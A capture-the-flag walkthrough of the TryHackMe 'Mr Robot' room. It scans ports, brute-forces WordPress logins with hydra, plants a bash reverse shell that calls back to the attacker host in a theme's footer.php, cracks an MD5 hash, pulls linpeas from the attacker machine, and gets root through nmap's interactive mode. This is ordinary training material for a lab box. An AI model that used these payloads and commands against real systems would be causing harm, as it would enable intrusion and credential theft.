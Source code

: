 # Mr Robot CTF

**Room Link:** [https://tryhackme.com/room/mrrobot](https://tryhackme.com/room/mrrobot)





## Scanning

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (5).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (10) (6).png" alt=""><figcaption></figcaption></figure>

### HTTP port 80

This ran for the majority of the time I was working on the box, I found the wordpress and checked robots.txt manually and the scan didn't really find anything of interest.

**Kali**

```
dirb http://$VICTIM:80 /usr/share/wordlists/dirb/big.txt
```

<figure><img src="../../.gitbook/assets/image (16) (2).png" alt=""><figcaption></figcaption></figure>

#### Key 1

<figure><img src="../../.gitbook/assets/image (7) (3).png" alt=""><figcaption></figcaption></figure>

**Downloaded fsocity.dic**

<figure><img src="../../.gitbook/assets/image (20) (1).png" alt=""><figcaption></figcaption></figure>

If you refresh the page you'll go to a wordpress site.

<figure><img src="../../.gitbook/assets/image (27) (5) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (6).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (24) (6).png" alt=""><figcaption></figcaption></figure>

Test to see what users exist in wordpress, if the user doesn't exist it will give an error saying the user is invalid.

<figure><img src="../../.gitbook/assets/image (26) (5).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -L fsocity.dic -p test  $VICTIM http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10
.10.70.148%2Fwp-admin%2F&testcookie=1:Invalid username" -V -t 30    
```

<figure><img src="../../.gitbook/assets/image (9) (3).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (18) (2).png" alt=""><figcaption></figcaption></figure>

Because there were so many entries in fsocity.dic I tried to reduce it as much as I could by removing duplicates and passwords that I thought would be unlikely.

**Kali**

```
cat fsocity.dic | sort | uniq > new-fsocity.dic
#Remove lines with less than 4 characters
sed -r '/^.{,4}$/d' new-fsocity.dic > new-new-fsocity.dic
#Remove lines with just numbers
awk '! /^[0-9]+$/' new-new-fsocity.dic > nonums.dic 
#Remove lines with more than 11 characters
sed '/^.\{11\}./d' nonums.dic > final.txt
```



**Kali**

```
hydra -L Elliot -P fsocity.dic  $VICTIM http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F
10.10.70.148%2Fwp-admin%2F&testcookie=1:is incorrect." -V -t 30 
```

<figure><img src="../../.gitbook/assets/image (13) (8).png" alt=""><figcaption></figcaption></figure>

## Reverse Shell

### Reverse Shell Failed Attempt

**revshell.php code**

```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/$KALI/443 0>&1'");
?>
```

**Kali**

```
vi revshell.php
zip revshell.zip revshell.php
nc -lvnp 443
```



<figure><img src="../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (25) (1).png" alt=""><figcaption></figcaption></figure>

Connection is made but it isn't stable.

<figure><img src="../../.gitbook/assets/image (5) (11).png" alt=""><figcaption></figcaption></figure>



### Reverse Shell&#x20;

wpscan found out that twentyfifeen is installed.

**Kali**

```
wpscan --url http://$VICTIM
```

<figure><img src="../../.gitbook/assets/image (11) (1) (5).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -vlnp 443
```

Added the same shell to footer.php which should appear on every page visited. Then I just went back to http://$VICTIM/join and it worked.

<figure><img src="../../.gitbook/assets/image (2) (1) (7).png" alt=""><figcaption></figcaption></figure>



Get autocomplete

**Victim**

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



**Victim**

```
cd /home/robot
ls
cat password.raw-md5 
```

<figure><img src="../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hashcat -m 0 password.raw-md5 /usr/share/wordlists/rockyou.txt
hashcat -m 0 password.raw-md5 /usr/share/wordlists/rockyou.txt --show
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
su robot
Password: abcdefghijklmnopqrstuvwxyz
```

<figure><img src="../../.gitbook/assets/image (10) (1) (8).png" alt=""><figcaption></figcaption></figure>

### LinPeas

**Kali**

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
wget http://$KALI:81/linpeas.sh
chmod +x linpeas.sh 
./linpeas.sh
```

<figure><img src="../../.gitbook/assets/image (37) (3) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

**Victim**

```
/usr/local/bin/nmap --interactive
nmap> !sh
```

<figure><img src="../../.gitbook/assets/image (9) (8).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (25) (5).png" alt=""><figcaption></figcaption></figure>
